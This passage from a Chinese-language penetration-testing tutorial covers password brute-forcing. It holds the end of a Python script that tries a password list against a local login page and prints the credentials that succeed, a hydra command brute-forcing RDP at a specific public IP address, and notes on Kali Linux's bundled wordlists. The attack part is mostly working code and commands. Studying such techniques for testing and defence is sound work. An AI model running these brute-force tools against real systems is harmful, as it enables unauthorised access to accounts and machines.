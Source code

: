```
            user=user.strip("\n")                 #用户名
            with open("passwd.txt",'r') as file:
                passwds=file.readlines()
                for passwd in passwds:
                    passwd=passwd.strip("\n")   #密码
                    a=get_cookie_token()              ##a列表中存储了服务器返回的cookie和toke
                    Login(a,user,passwd)
                    headers={'Host':'127.0.0.1',
                              'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
                              'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                              'Accept-Lanuage':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
                              'Connection':'keep-alive',
                              'Upgrade-Insecure-Requests':'1',
                              'Cookie':a[0],
                              'Referer':'http://127.0.0.1/login.php'}
                    response=requests.get("http://127.0.0.1/index.php",headers=headers)
                    if response.headers['Content-Length']=='7524':    #如果登录成功
                       print("用户名为：%s ,密码为：%s"%(user,passwd))   #打印出用户名和密码
                       break
if __name__=='__main__':
    main()
```

脚本运行截图

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz292edACt9Uu8XEibM0ic95bYxBrt7RmowUQL3A4ObibpJb3GaJEibvQwChog/640?wx_fmt=png)

**破解 3389 远程登录**  

hydra 202.207.236.4 rdp -L user.txt -P passwd.txt -V

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz2900PoheEBPIgaJr8lprKM1yxc3cbbaib0tJ3VEQtK3gqtUcnmv0yEJhA/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HoaHEjBLqmAGrZlH8BTIAaGKt4xLxqt7gEL9Jj00Y7u9ic8Xy6EYiaVBQ/640?wx_fmt=gif)

Kali 自带密码字典

暴力破解能成功最重要的条件还是要有一个强大的密码字典！Kali 默认自带了一些字典，在 /usr/share/wordlists 目录下

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29RKOtibWeibJcaMMO3yxPibAI4zf12YKnJhnXdngPWzQlDlibFtJ7v9zia2A/640?wx_fmt=png)

**dirb**

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29SiaC7eg7W4IapLVWlTpKxNdXs02CHPoznWOuLQtAWAP0VEsO43Qw5vg/640?wx_fmt=png)

big.txt #大的字典

small.txt #小的字典

catala.txt #项目配置字典
